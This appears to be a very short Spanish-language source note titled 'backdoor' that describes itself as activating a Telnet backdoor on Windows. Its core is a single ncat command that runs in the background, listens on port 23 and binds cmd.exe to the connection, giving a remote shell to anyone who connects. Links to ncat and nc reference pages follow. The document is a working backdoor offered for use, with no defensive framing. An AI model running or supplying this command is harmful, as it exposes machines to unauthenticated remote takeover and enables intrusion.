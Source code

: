 # backdoor

Activa puerta trasera TelnetD para Windows

start /B ncat -l -t -p 23 -e cmd.exe 

https://nmap.org/ncat/

https://ss64.com/bash/nc.html
